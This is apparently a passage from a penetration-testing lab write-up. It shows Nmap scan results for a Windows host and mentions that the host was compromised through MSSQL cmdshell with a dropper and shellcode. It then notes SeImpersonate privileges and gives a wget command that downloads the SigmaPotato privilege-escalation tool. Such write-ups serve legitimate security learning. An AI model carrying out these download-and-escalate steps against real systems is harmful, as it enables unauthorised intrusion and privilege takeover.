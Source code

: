 Nmap scan
```
Nmap scan report for 10.10.110.12
Host is up (0.050s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
443/tcp   open   https?
3391/tcp  closed savant
49443/tcp open   unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

To reiterate, we used MSSQL cmdshell combined with a dropper and shellcode to compromise this box.

Now, we need to privesc. Whoami /priv shows that we have seimpersonate
```
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```